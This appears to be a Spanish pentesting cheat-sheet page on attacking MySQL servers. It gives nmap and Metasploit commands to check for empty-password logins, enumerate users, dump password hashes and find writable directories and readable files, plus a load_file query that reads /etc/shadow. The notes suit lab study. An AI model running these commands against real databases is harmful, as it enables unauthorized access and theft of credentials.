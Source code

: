 # MySQL

{% hint style="success" %}
Para hacer login en una base de datos con MySQL, ejecutamos el siguiente comando:

```bash
mysql -h 192.168.1.12 -u usuario -ppassword
```

ATENCION!! En el último parámetro, pondremos `-p` seguido de la contraseña sin espacios

Podemos omitir la contraseña para probar usuarios
{% endhint %}

## Enumeración Interna

### Bases de Datos

Una vez hayamos entrado en la BBDD con el usuario y contraseña, deberemos enumerar las bases de datos que sean inusuales o alguna que pueda tener información relevante. Para ello usamos el comando:

```sql
show databases;
```

Cuando queramos usar una BBDD, ejecutamos:

```sql
use example;
```

### Tablas

```sql
show tables;
```

### Ver toda la información de una tabla

```sql
SELECT * FROM tabla_ejemplo;
```

## Login Anónimo

Podemos comprobar si el login anónimo está hebilitado para algún usuario con NMAP y el siguiente comando:

```bash
nmap --script=mysql-empty-password -p 3306 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (87).png" alt=""><figcaption></figcaption></figure>

## Enumeración de usuarios

Para ver otros posibles usuarios, es necesario contar con el acceso de algun usuario o su login anonimo. Después, con un script de nmap, se nos mostrarán otros usuarios:

```bash
nmap --script=mysql-users --script-args="mysqluser='root',mysqlpass=''" -p 3306 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (92).png" alt=""><figcaption></figcaption></figure>

## Enumeración hashes de contraseñas

### Metasploit

Podemos enumerar hashes de los usuarios y sus contraseñas (también hasheadas). Para ello empleamos metasploit:

```perl
msfconsole

use auxiliary/scanner/mysql/mysql_hashdump

set RHOSTS 192.71.145.3

set USERNAME root

set PASSWORD ""

exploit
```

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>

### Nmap

Para enumerar los hashes de los usuarios con nmap, usaremos el siguiente comando:

```bash
nmap --script mysql-dump-hashes --script-args="username='root',password=''" -p 3306 192.168.1.1
```

<figure><img src="../../.gitbook/assets/image (93).png" alt=""><figcaption></figcaption></figure>

## Enumeración de directorios con escritura

Una vez tengamos credenciales validas o un login anónimo habilitado, podemos emplear el siguiente modulo de metasploit para saber en que directorios podemos escribir:

```perl
msfconsole

use auxiliary/scanner/mysql/mysql_writable_dirs

set DIR_LIST /usr/share/metasploit-framework/data/wordlists/directory.txt

set RHOSTS 192.71.145.3

set VERBOSE false

set PASSWORD ""

exploit

```

<figure><img src="../../.gitbook/assets/image (89).png" alt=""><figcaption></figcaption></figure>

## Enumeración de ficheros con lectura

Podemos enumerar ficheros disponibles (que podemos ver su contenido) con el siguiente módulo de metasploit:

```perl
msfconsole

use auxiliary/scanner/mysql/mysql_file_enum

set RHOSTS 192.71.145.3

set FILE_LIST /usr/share/metasploit-framework/data/wordlists/sensitive_files.txt

set PASSWORD ""

exploit
```

<figure><img src="../../.gitbook/assets/image (90).png" alt=""><figcaption></figcaption></figure>

## Leer archivos locales

Podemos leer archivos locales (previamente deberemos comprobar que ficheros podemos leer con la [#enumeracion-de-ficheros-con-lectura](mysql.md#enumeracion-de-ficheros-con-lectura "mention")). Para ello, ejecutamos la siguiente consulta en SQL:

```sql
select load_file("/etc/shadow");
```

<figure><img src="../../.gitbook/assets/image (91).png" alt=""><figcaption></figcaption></figure>

## Enumeración de privilegios de archivo

{% hint style="info" %}
En MySQL, los privilegios de archivo permiten a los usuarios leer y escribir archivos en el sistema de archivos del servidor. Estos privilegios son potencialmente peligrosos, ya que pueden permitir a un usuario acceder a archivos sensibles o modificar la configuración del servidor.
{% endhint %}

Con el siguiente comando de NMAP podemos comprobar si tenemos privilegios de archivos puesto que pueden ser una via potencial de explotación. Para ello, ejecutamos el siguiente comando:

```bash
nmap --script=mysql-audit --script-args "mysql-audit.username='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'" -p 3306 192.68.1.1
```

<figure><img src="../../.gitbook/assets/image (94).png" alt=""><figcaption></figcaption></figure>
